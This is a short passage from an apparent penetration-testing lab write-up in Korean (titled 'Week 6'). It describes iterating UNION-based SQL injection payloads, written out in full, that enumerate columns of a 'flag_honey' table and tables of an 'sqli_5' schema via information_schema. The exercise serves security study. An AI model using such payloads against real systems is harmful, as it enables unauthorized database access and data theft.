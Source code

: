 위 쿼리의 반환 결과는 존재했으나, `Info` 컬럼에 데이터가 출력되지 않아 실질적인 활용이 불가능하였다. 따라서 이번에는 두 번째 가능성을 확인하기 위해 `' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' limit 1, 1#`를 입력해 보았다.

![SQL Injection 2](/data/Penetration%20Testing%20|%20Week%206/55.png)

이번에도 데이터가 출력되지 않았다. 이에 따라 세 번째 가능성을 검토해 보기로 결정하였고, 페이로드를 `' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' limit 1, 1#`로 변경하여 입력해 보았다.

![SQL Injection 2](/data/Penetration%20Testing%20|%20Week%206/56.png)
